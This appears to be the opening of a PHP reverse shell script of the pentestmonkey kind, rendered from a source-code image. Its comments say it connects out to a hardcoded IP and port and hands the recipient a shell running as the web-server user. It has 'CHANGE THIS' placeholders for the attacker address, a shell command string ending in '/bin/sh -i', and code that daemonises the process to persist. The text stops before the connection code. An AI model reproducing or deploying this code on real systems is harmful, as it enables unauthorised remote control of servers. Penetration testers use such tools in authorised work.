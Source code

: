 ```php
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

```